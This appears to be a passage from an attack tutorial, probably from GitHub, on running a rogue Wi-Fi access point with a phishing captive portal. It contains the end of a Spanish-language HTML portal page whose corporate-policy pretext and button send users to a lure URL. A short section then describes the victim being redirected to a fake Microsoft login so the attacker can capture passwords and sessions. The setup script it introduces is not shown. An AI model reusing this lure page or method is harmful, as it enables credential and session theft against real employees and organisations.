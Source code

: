 ```html
        
        <div class="numero-random" id="random-number">--</div>
        
        <div class="info-text">
            <p>Por políticas de la empresa y para garantizar la seguridad de nuestros sistemas, es necesario realizar una autenticación mediante su correo corporativo para acceder a la red WiFi.</p>
            <p>Este procedimiento nos ayuda a mantener un entorno seguro y proteger tanto la información de la empresa como sus datos personales.</p>
        </div>
        
        <button class="auth-button" id="auth-btn">Autenticar con correo corporativo</button>
        
        <div class="footer">
            <p>Si tiene problemas para conectarse, contacte al departamento de TI.</p>
        </div>
    </div>

    <script>
        // Generar número aleatorio entre 0 y 100
        function generarNumeroAleatorio() {
            return Math.floor(Math.random() * 101);
        }
        
        // Mostrar el número aleatorio al cargar la página
        document.addEventListener('DOMContentLoaded', function() {
            const numeroElemento = document.getElementById('random-number');
            const numeroAleatorio = generarNumeroAleatorio();
            numeroElemento.textContent = numeroAleatorio;
            
            // Agregar funcionalidad al botón
            const botonAutenticacion = document.getElementById('auth-btn');
            botonAutenticacion.addEventListener('click', function() {
                // Redirigir a la URL de autenticación
                window.location.href = {lure_url_js};
            });
        });
    </script>
</body>
</html>
```

### Script to setup fake AP

After that we need to set up the configuration to bring up a fake Wi‑Fi network that accepts outbound connections to our fake portal.

What steps does the victim follow?

1. Connect to our Wi‑Fi network.
2. The smartphone shows a captive portal.
3. The user clicks Authenticate and is redirected to a fake Microsoft portal.
4. The user enters their credentials, which allows us to capture the session and passwords.
